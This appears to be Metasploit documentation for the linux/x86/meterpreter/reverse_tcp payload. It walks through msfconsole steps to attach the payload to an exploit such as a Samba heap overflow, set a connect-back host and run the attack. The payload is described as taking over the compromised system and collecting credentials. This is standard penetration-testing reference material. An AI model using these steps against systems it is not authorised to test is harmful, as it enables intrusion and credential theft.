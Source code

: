 linux/x86/meterpreter/reverse_tcp is the most popular payload against the Linux platform. It allows
you to remotely take over the compromised system, having control of the file system, collect
sensitive information such as credentials using post modules, etc.

linux/x86/meterpreter/reverse_tcp is also the default payload for most Linux exploits.

## Vulnerable Application

linux/x86/meterpreter/reverse_tcp should work on either 32 or 64-bit Linux platforms.

## Deploying linux/x86/meterpreter/reverse_tcp

linux/x86/meterpreter/reverse_tcp can be used in two different ways.

**As an exploit payload**

Many Linux exploits support native payloads, but not always. To check this, you can use the ```info```
command on the exploit you want to use:

```
msf exploit(lsa_transnames_heap) > info

       Name: Samba lsa_io_trans_names Heap Overflow
     Module: exploit/linux/samba/lsa_transnames_heap
   Platform: Linux
 Privileged: Yes
    License: Metasploit Framework License (BSD)
       Rank: Good
  Disclosed: 2007-05-14
...
```

If the platform field includes Linux, then that means you can use linux/x86/meterpreter/reverse_tcp
and other Linux payloads.

Sometimes, you need to select a specific target to be able to use a native Linux payload. To check
this, do:

```
show targets
```

If there is a Linux target, use that:

```
set TARGET [index]
```

To actually set the payload:

1. In msfconsole, load the exploit.
2. Do: ```set PAYLOAD linux/x86/meterpreter/reverse_tcp```
3. Set the ```LHOST``` option, which is the [IP the payload should connect back to](https://github.com/rapid7/metasploit-framework/wiki/How-to-use-a-reverse-shell-in-Metasploit).
4. Run the exploit
